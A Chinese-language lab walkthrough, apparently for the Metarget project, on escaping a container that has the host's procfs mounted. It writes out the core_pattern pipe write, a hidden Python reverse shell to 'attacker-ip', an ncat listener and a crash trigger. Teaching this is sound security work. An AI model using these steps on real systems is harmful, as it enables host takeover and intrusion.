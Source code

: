# 挂载宿主机Procfs系统导致容器逃逸

## 场景介绍

对于熟悉Linux和云计算的朋友来说，procfs绝对不是一个陌生的概念，不熟悉的朋友可以参考网络上相关文章或直接在Linux命令行下执行`man proc`查看文档。

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时（截止到本文成稿时，Docker默认情况下不会为容器开启User Namespace）。

一般来说，我们不会将宿主机的procfs挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs中的`/proc/sys/kernel/core_pattern`负责配置进程崩溃时内存转储数据的导出方式。从手册[1]中我们能获得关于内存转储的详细信息，关键信息如下：

> 从2.6.19内核版本开始，Linux支持在`/proc/sys/kernel/core_pattern`中使用新语法。如果该文件中的首个字符是管道符`|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

我们可以利用上述机制，在挂载了宿主机procfs的容器内实现逃逸。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install mount-host-procfs
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`mount-host-procfs`的pod。

宿主机的procfs在容器内部的挂载路径是`/host-proc`。

## 漏洞复现

执行以下命令进入容器：

```
kubectl exec -it -n metarget mount-host-procfs /bin/bash
```

在容器中，首先拿到当前容器在宿主机上的绝对路径：

```
root@mount-host-procfs:/# cat /proc/mounts | grep docker
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/SDXPXVSYNB3RPWJYHAD5RIIIMO:/var/lib/docker/overlay2/l/QJFV62VKQFBRS5T5ZW4SEMZQC6:/var/lib/docker/overlay2/l/SSCMLZUT23WUSPXAOVLGLRRP7W:/var/lib/docker/overlay2/l/IBTHKEVQBPDIYMRIVBSVOE2A6Y:/var/lib/docker/overlay2/l/YYE5TPGYGPOWDNU7KP3JEWWSQM,upperdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/diff,workdir=/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/work 0 0```
```

从`workdir`可以得到基础路径，结合背景知识可知当前容器在宿主机上的`merged`目录绝对路径如下：

```
/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged
```

向容器内`/host-proc/sys/kernel/core_pattern`内写入以下内容：

```bash
echo -e "|/var/lib/docker/overlay2/4aac278b06d86b0d7b6efa4640368820c8c16f1da8662997ec1845f3cc69ccee/merged/tmp/.x.py \rcore           " > /host-proc/sys/kernel/core_pattern
```

然后在容器内创建一个反弹shell的`/tmp/.x.py`：

```bash
cat >/tmp/.x.py << EOF
#!/usr/bin/python
import os
import pty
import socket
lhost = "attacker-ip"
lport = 10000
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    os.putenv("HISTFILE", '/dev/null')
    pty.spawn("/bin/bash")
    os.remove('/tmp/.x.py')
    s.close()
if __name__ == "__main__":
    main()
EOF

chmod +x /tmp/.x.py
```

最后，在容器内运行一个可以崩溃的程序即可，例如：

```c
#include <stdio.h>
int main(void)
{
    int *a = NULL;
    *a = 1;
    return 0;
}
```

容器内若没有编译器，可以先在其他机器上编译好后放入容器中。

完成后，在其他机器上开启shell监听：

```bash
ncat -lvnp 10000
```

接着在容器内执行上述编译好的崩溃程序，即可获得反弹shell。

## 参考文献

1. http://man7.org/linux/man-pages/man5/core.5.html